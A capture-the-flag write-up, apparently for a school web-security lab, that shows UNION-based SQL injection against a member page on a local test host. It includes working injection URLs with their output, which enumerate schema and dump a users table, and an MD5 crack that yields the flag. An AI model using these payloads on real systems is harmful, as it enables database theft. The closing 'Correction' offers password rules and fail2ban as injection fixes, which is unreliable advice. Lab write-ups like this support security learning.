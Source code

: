 # Member Sql Injection

SQL injection usually occurs when you ask a user for input, like their username/userid, 
and instead of a name/id, the user gives you an SQL statement that you will unknowingly 
run on your database.

## Notes

CONCAT(CHAR(77), CHAR(101), CHAR(109), CHAR(98), CHAR(101), CHAR(114), CHAR(95), CHAR(83), CHAR(113), CHAR(108), CHAR(95), CHAR(73), CHAR(110), CHAR(106), CHAR(101), CHAR(99), CHAR(116), CHAR(105), CHAR(111), CHAR(110))

----------------------------------------------------

```bash
http://192.168.1.34/index.php
?page=member
&id=-1 union select column_name,0 from information_schema.columns where table_schema=CONCAT(CHAR(77), CHAR(101), CHAR(109), CHAR(98), CHAR(101), CHAR(114), CHAR(95), CHAR(83), CHAR(113), CHAR(108), CHAR(95), CHAR(73), CHAR(110), CHAR(106), CHAR(101), CHAR(99), CHAR(116), CHAR(105), CHAR(111), CHAR(110))
&Submit=Submit 
```

ID: -1 union select column_name,0 from information_schema.columns where table_schema=CONCAT(CHAR(77), CHAR(101), CHAR(109), CHAR(98), CHAR(101), CHAR(114), CHAR(95), CHAR(83), CHAR(113), CHAR(108), CHAR(95), CHAR(73), CHAR(110), CHAR(106), CHAR(101), CHAR(99), CHAR(116), CHAR(105), CHAR(111), CHAR(110)) 
First name: user_id
Surname : 0
ID: -1 union select column_name,0 from information_schema.columns where table_schema=CONCAT(CHAR(77), CHAR(101), CHAR(109), CHAR(98), CHAR(101), CHAR(114), CHAR(95), CHAR(83), CHAR(113), CHAR(108), CHAR(95), CHAR(73), CHAR(110), CHAR(106), CHAR(101), CHAR(99), CHAR(116), CHAR(105), CHAR(111), CHAR(110)) 
First name: first_name
Surname : 0
ID: -1 union select column_name,0 from information_schema.columns where table_schema=CONCAT(CHAR(77), CHAR(101), CHAR(109), CHAR(98), CHAR(101), CHAR(114), CHAR(95), CHAR(83), CHAR(113), CHAR(108), CHAR(95), CHAR(73), CHAR(110), CHAR(106), CHAR(101), CHAR(99), CHAR(116), CHAR(105), CHAR(111), CHAR(110)) 
First name: last_name
Surname : 0
ID: -1 union select column_name,0 from information_schema.columns where table_schema=CONCAT(CHAR(77), CHAR(101), CHAR(109), CHAR(98), CHAR(101), CHAR(114), CHAR(95), CHAR(83), CHAR(113), CHAR(108), CHAR(95), CHAR(73), CHAR(110), CHAR(106), CHAR(101), CHAR(99), CHAR(116), CHAR(105), CHAR(111), CHAR(110)) 
First name: town
Surname : 0
ID: -1 union select column_name,0 from information_schema.columns where table_schema=CONCAT(CHAR(77), CHAR(101), CHAR(109), CHAR(98), CHAR(101), CHAR(114), CHAR(95), CHAR(83), CHAR(113), CHAR(108), CHAR(95), CHAR(73), CHAR(110), CHAR(106), CHAR(101), CHAR(99), CHAR(116), CHAR(105), CHAR(111), CHAR(110)) 
First name: country
Surname : 0
ID: -1 union select column_name,0 from information_schema.columns where table_schema=CONCAT(CHAR(77), CHAR(101), CHAR(109), CHAR(98), CHAR(101), CHAR(114), CHAR(95), CHAR(83), CHAR(113), CHAR(108), CHAR(95), CHAR(73), CHAR(110), CHAR(106), CHAR(101), CHAR(99), CHAR(116), CHAR(105), CHAR(111), CHAR(110)) 
First name: planet
Surname : 0
ID: -1 union select column_name,0 from information_schema.columns where table_schema=CONCAT(CHAR(77), CHAR(101), CHAR(109), CHAR(98), CHAR(101), CHAR(114), CHAR(95), CHAR(83), CHAR(113), CHAR(108), CHAR(95), CHAR(73), CHAR(110), CHAR(106), CHAR(101), CHAR(99), CHAR(116), CHAR(105), CHAR(111), CHAR(110)) 
First name: Commentaire
Surname : 0
ID: -1 union select column_name,0 from information_schema.columns where table_schema=CONCAT(CHAR(77), CHAR(101), CHAR(109), CHAR(98), CHAR(101), CHAR(114), CHAR(95), CHAR(83), CHAR(113), CHAR(108), CHAR(95), CHAR(73), CHAR(110), CHAR(106), CHAR(101), CHAR(99), CHAR(116), CHAR(105), CHAR(111), CHAR(110)) 
First name: countersign
Surname : 0


---------------------------------------------------

```bash
http://192.168.1.34/index.php
?page=member
&id=-1 UNION ALL SELECT NULL,concat(TABLE_NAME) FROM information_schema.TABLES WHERE table_schema=CONCAT(CHAR(77), CHAR(101), CHAR(109), CHAR(98), CHAR(101), CHAR(114), CHAR(95), CHAR(83), CHAR(113), CHAR(108), CHAR(95), CHAR(73), CHAR(110), CHAR(106), CHAR(101), CHAR(99), CHAR(116), CHAR(105), CHAR(111), CHAR(110))
&Submit=Submit
```

First name: 
Surname : users

----------------------------------------------------

we found in 

```bash
http://192.168.1.34/index.php
?page=member
&id=-1 union select Commentaire, countersign from Member_Sql_Injection.users
&Submit=Submit
```

this: 

ID: -1 union select Commentaire, countersign from Member_Sql_Injection.users 
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28

md5: 5ff9d0165b4f92b14994e5c685cdce28 = FortyTwo

Sh256: fortytwo = 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

the flag is 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5


## Correction

We need to block SQL in different ways, one of the more commun in to force to the user to have difficult password adding to the code for example: 1 letter A, 1 signe, etc... have one authentificator is a good idea swell or email connection sending, have maximum of try (3 attempts), fail2ban.